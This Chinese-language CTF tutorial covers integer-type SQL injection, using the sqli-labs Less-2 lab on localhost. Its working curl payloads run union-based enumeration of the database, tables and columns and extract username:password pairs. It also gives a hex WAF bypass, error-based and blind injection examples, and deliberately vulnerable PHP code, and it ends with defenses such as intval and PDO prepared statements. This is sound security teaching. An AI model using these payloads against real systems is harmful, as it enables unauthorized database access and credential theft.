


## 01 整数型注入 -- 考点精讲

> 前置知识：[[../Web前置技能/数据库/数据库|数据库前置]] -- 先掌握 MySQL 基本查询与 information_schema 结构
>
> 关联教程：[[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]] · [[02-字符型注入|02-字符型注入]]

### 漏洞原理

参数是**数字**且后端**不加引号**直接拼接进 SQL 语句，用户输入被当作 SQL 语法执行：

```php
<?php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = $id";
$result = mysqli_query($conn, $sql);
?>
```

正常输入 `id=1` 执行：

```sql
SELECT * FROM users WHERE id = 1
```

恶意输入 `id=1 and 1=2` 执行：

```sql
SELECT * FROM users WHERE id = 1 and 1=2
```

`$id` 完全没有包裹符号，注入内容可以自由改变 WHERE 条件、追加 union、追加注释。整数型注入是所有注入类型里最"干净"的一种：不需要考虑闭合、不需要考虑引号转义，payload 写什么就执行什么。

本章靶场对照：sqli-labs **Less-2**（GET 整数型，有回显位）。以下所有 curl 命令均可在 Less-2 上直接复现。

### 判断方法

#### 方法一：逻辑运算对比

构造两个恒真恒假条件，观察页面差异：

| payload | SQL 结果 | 页面表现 |
|---------|---------|---------|
| `?id=1 and 1=1` | 恒真，等价 `id=1` | 正常显示 id=1 的内容 |
| `?id=1 and 1=2` | 恒假 | 页面异常/无数据 |

两者页面不同 → 存在整数型注入。若两者都正常或都异常，考虑字符型或其他情况。

#### 方法二：算术运算

利用数学运算不改变结果来验证：

```text
?id=2-1     若返回的是 id=1 的内容 → 数字直接参与运算 → 整数型
?id=1%2b1   注意 URL 中 + 会被解析为空格，需写 %2b
```

字符型注入中 `'1-1'` 是一个整体字符串不会运算，这是两种类型的本质区别。

### curl 基础与输出解读

全终端操作流只靠 curl 一个工具即可完成，先掌握几个关键用法：

```bash
# 基本请求：-s 静默模式（不显示进度条）
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1"

# 只看响应体大小：判断真假页面差异的最快方法
curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-2/?id=1"

# 看响应头 + 响应体一起调试
curl -s -i "http://127.0.0.1/sqli-labs/Less-2/?id=1"
```

#### curl 输出解读示例：真假对比

Step1 的恒真恒假判断在终端里长这样：

```bash
$ curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=1" | grep -o "Your Login name.*"
Your Login name:Dumb Your Password:Dumb

$ curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=2" | grep -o "Your Login name.*"
（无任何输出）
```

或者用比大小的方式，连内容都不用看：

```bash
$ curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=1"
608
$ curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=2"
566
```

608 与 566 不同 → 注入成立。**比大小的技巧价值在于**：盲注阶段脚本只需比较一个整数就能判断真假，不需要解析 HTML；页面结构复杂时尤其好用。

URL 书写注意：

- 空格 curl 会自动处理，可不编码；
- `#` 是 URL 片段符，必须写 `%23`；
- `--+` 是 GET 场景惯用注释（`+` 被 URL 解码为空格）。

#### 常用 curl 参数速查

全终端注入操作流中高频出现的参数一览：

| 参数 | 作用 | 注入场景示例 |
|------|------|-------------|
| `-s` | 静默，不显示进度条 | 所有命令默认带上 |
| `-o /dev/null` | 丢弃响应体 | 配合 -w 只看计时/大小 |
| `-w "%{size_download}"` | 输出响应体字节数 | 真假状态判定 |
| `-w "%{time_total}"` | 输出总耗时秒数 | 时间盲注（见 [[05-时间盲注\|05-时间盲注]]） |
| `-i` | 显示响应头 | 调试 Set-Cookie、跳转 |
| `-d "k=v"` | 发 POST 体 | POST 注入点 |
| `-b "k=v"` | 携带 Cookie | Cookie 位注入点 |
| `-A "string"` | 自定义 UA | UA 位注入点 |
| `-H "Referer: x"` | 自定义请求头 | Referer 位注入点 |
| `-k` | 忽略证书校验 | https 自签名靶场 |
| `--max-time n` | 总超时兜底 | 盲注脚本防卡死 |

### 五步方法论完整实操（Less-2）

所有 union 路线的注入题都遵循同一套五步方法论：确认注入 → 探列数 → 爆库 → 爆表 → 爆列取数据。每一步都是一条 curl 命令，逐条敲完即拿 flag。

#### Step 1 确认注入存在：恒真/恒假对比

```bash
# 恒真条件：等价于 id=1，应返回 Dumb 用户
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=1"

# 恒假条件：WHERE 不成立，无数据回显
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 and 1=2"
```

预期结果：

```text
第一条: Your Login name: Dumb    Your Password: Dumb
第二条: 页面只剩 Please input the ID as a parameter 或空白
前后响应不同 -> 注入成立
```

再补一发算术验证双重确认：

```bash
# 返回的是 id=1 的内容而非 id=2 → 数字直接参与运算，整数型实锤
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=2-1"
```

#### Step 2 探测列数 order by

union 要求前后 SELECT 列数一致，先用 order by 探边界：

```bash
# 正常返回 → 至少 3 列
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 order by 3"

# 报错 Unknown column '4' in 'order clause' → 列数 = 3
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=1 order by 4"
```

实际操作可跳过精确探测，从大数字往回试更快（先 order by 10 报错再折半），写上此步只为保证流程完整。

#### Step 3 获取当前数据库名

把 id 改成 `-1` 让前半句查询为空，页面上只显示 union 的结果；先找回显位：

```bash
# 回显位探测：页面上出现 2 和 3 的位置就是可用位置
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,2,3"

# 把 database() 和 user() 放进回显位
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,database(),user()"
```

Less-2 实际输出：

```text
Your Login name: security
Your Password: security@localhost
```

当前库名为 **security**。

#### Step 4 根据库名获取表名

information_schema 是 MySQL 自带元数据库，查它等于查整个数据库的目录：

```bash
# 爆 security 库的所有表名
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'"
```

Less-2 实际输出：

```text
Your Login name: emails,referers,uagents,users
```

目标锁定 users 表。引号被过滤时可用十六进制绕过：`table_schema=0x7365637572697479`（security 的 hex），见坑位速查。

#### Step 5 根据表名获取列名再提取数据

```bash
# 先爆 users 表的列名
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'"

# 输出: id,username,password —— 再拼出账号密码
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(username,0x3a,password),3 from users"
```

`0x3a` 是冒号的十六进制，让 username:password 成对显示：

```text
Your Login name: Dumb:Dumb,Angelina:Dummy,Dummy:...（14 条记录全部吐出）
```

五步方法论到此走完：**确认 → 列数 → 库 → 表 → 列+数据**。后面所有章节都在复用这套骨架，只是每一步的 payload 形态随注入点变化。

### 五步流程示意图

```mermaid
flowchart TD
    A[Step1 恒真恒假对比<br/>and 1=1 vs and 1=2] -->|响应不同| B[Step2 order by 探列数]
    A -->|响应相同| X[换字符型/其他类型]
    B -->|报错边界 n| C[Step3 id=-1 union select<br/>database() 爆库]
    C --> D[Step4 information_schema.tables<br/>group_concat table_name 爆表]
    D --> E[Step5 information_schema.columns<br/>爆列后 group_concat 取数据]
    E --> F[flag 到手]
```

### information_schema 结构速记

Step4/5 反复查的元数据库，结构必须烂熟于心，三张表层层递进：



对应的三条查询模板：

```bash
# 所有数据库
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata"

# 指定库的所有表
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'"

# 指定表的所有列（跨库查询时加 table_schema 条件避免重名表干扰）
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'"
```

### 本章特有技术

#### group_concat 与 limit 两种取法

一行只能回显一条记录或想分批取数据时的替代方案：

```bash
# 方式一：group_concat 把多行拼成一行（默认逗号分隔）
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(username,0x3a,password),3 from users"

# 方式二：limit 分页逐条取，改第一个数字翻页
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,concat(username,0x3a,password),3 from users limit 0,1"
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,concat(username,0x3a,password),3 from users limit 1,1"
```

#### group_concat 长度限制处理

group_concat 默认上限 **1024 字节**，超出部分静默截断——你以为拿到了全部数据其实没有。三种应对：

```bash
# 1. 先确认当前限制值
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,@@group_concat_max_len,3"

# 2. 数据量小时改用 limit 分页，每页固定条数
for i in 0 1 2 3 4 5; do
  curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,concat(username,0x3a,password),3 from users limit $((i*3)),3"
done

# 3. 大表按 id 区间切片，绕开单次长度限制
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,group_concat(username,0x3a,password),3 from users where id between 1 and 5"
```

判断有没有被截断：对同一个子查询同时测 `length()` 与肉眼可见长度是否一致：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,length(group_concat(username)),3 from users"
# 若 length 显示 90 而页面只有 80 个字符，说明被截断了
```

#### 无回显位时的两条替代路线

肯定不止 union 这一种写法，选择逻辑如下：



- 报错路线示例（无需回显位）：`?id=1 and updatexml(1,concat(0x7e,database()),1)`，详见 [[03-报错注入|03-报错注入]]；
- 盲注路线示例：`?id=1 and ascii(substr(database(),1,1))>96` 靠页面差异逐位猜，详见 [[04-布尔盲注|04-布尔盲注]]。

具体走哪条依据三件事分析：**页面有无数据输出、有无报错原文、真假状态能否区分**。CTF 里拿到注入点先花两分钟把三条路都探一遍再定主攻方向，比闷头打 union 快得多。

### 典型漏洞代码（sqli-labs Less-2）

```php
<?php
// 整数型：$id 未加任何引号，未做任何过滤
$sql = "SELECT * FROM users WHERE id = $id LIMIT 0,1";
$result = mysqli_query($con, $sql);
if($result) {
    $row = mysqli_fetch_array($result);
    echo 'Your Login name:'. $row['username'];
    echo 'Your Password:' .$row['password'];
} else {
    // 开启了报错回显时，报错信息直接暴露在页面上
    print_r(mysqli_error($con));
}
?>
```

两个回显位（username/password 对应 union 的第 2、3 列），且失败分支有 mysqli_error 回显——所以 Less-2 既可走 union 又可走报错，是最适合练五步法的入门靶场。

### CTF 例题思路表

| 题目特征 | 注入点形态 | 思路 |
|---------|-----------|------|
| URL 直接带数字参数，报错有回显 | `?id=1` | 本篇标准流程：order by → union → 爆库爆表 |
| 数字参数 + 无回显位但页面变化 | `?id=1` | 转布尔盲注，见 [[04-布尔盲注\|04-布尔盲注]] |
| 数字参数 + 无回显无差异页面 | `?id=1` | 转时间盲注，见 [[05-时间盲注\|05-时间盲注]] |
| 数字参数 + 强转 `(int)$_GET['id']` | `?id=1` | 强转后无法注入，找其他参数 |
| 数字参数经过 `intval()` 处理 | `?id=1` | 同上，intval 截断非数字开头输入 |
| union select 被 WAF 拦截但报错回显 | `?id=1` | 改走报错注入 [[03-报错注入\|03-报错注入]] |
| 参数形如 `?page=2&num=5` 多参数 | 多个数字参数 | 逐个测，冷门参数常被忽略 |
| order by 被过滤 | `?id=1` | 直接 `union select 1,2,3,4...` 逐次增加列数试到不报错为止 |
| 只能提交纯数字 | `?id=1` | 用 `2-1`、`1^0` 等算术形态携带逻辑，避免字母 |

### 常见坑位速查

| 现象 | 原因 | 解决 |
|------|------|------|
| union select 页面只显示 id=1 的数据 | 前半句查询有结果，先输出了 | 把 id 改成 `-1` 或 `0` 让前半句为空 |
| `+` 在 URL 里没生效 | `+` 被 URL 解码为空格 | 写成 `%2b`，或改用减法 `2-1` |
| `#` 后面的 payload 全部失效 | `#` 被当成 URL 片段符截断 | 必须写成 `%23`，或改用 `--+` |
| 回显位显示的数字位置不对 | 页面模板截断了输出 | 换 concat() 把多个函数拼到一个回显位 |
| group_concat 结果被截断 | 超 1024 字节默认上限 | limit 分页取，或先查 `@@group_concat_max_len` 确认 |
| 单引号里的表名触发 WAF | 引号关键字被拦 | 十六进制绕过 `table_schema=0x7365637572697479` |
| curl 返回空但浏览器正常 | 缺 UA 或被反爬 | 加 `-A "Mozilla/5.0"` 模拟浏览器 |
| https 目标证书报错 | 自签名证书 | 加 `-k` 忽略证书校验 |

### 自动化：sqlinject.py 工具

手工五步熟练后，可用自制工具一键完成（工具源码与用法见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`），位于 ~/hackingtools/web/injection/sqlinject，支持 -h/--help 查看完整指南）：

```bash
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-2/?id=1"
```

该命令自动完成本章场景的完整五步：确认注入存在、order by 探列数、union 爆库、information_schema 爆表爆列、提取数据并汇总输出。手工流程的意义在于理解每一步的因果——工具只是把五条 curl 串起来而已，出了问题依然要回到手工 curl 定位是哪一步失效。

### 防御手段

| 防御方式 | 示例 | 说明 |
|---------|------|------|
| intval 强制转换 | `$id = intval($_GET['id']);` | 最简单有效的数字型防御 |
| 预编译参数化查询 | 见下方 PDO 代码 | 从根本上分离代码与数据 |
| is_numeric 校验 | `is_numeric($id)` | 注意其兼容十六进制/科学计数法的坑 |
| 错误信息不外泄 | display_errors=Off | 同时掐断报错注入这条路 |

预编译正确姿势（PHP PDO）：

```php
<?php
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');
$stmt->execute([':id' => $_GET['id']]);
$row = $stmt->fetch();
?>
```

SQL 语句结构先行编译，用户输入永远只会作为**数据**绑定进去，无法再改变语句结构——这是所有注入防御的终极答案。

---
**返回** [[SQL总目录|SQL 总目录]]
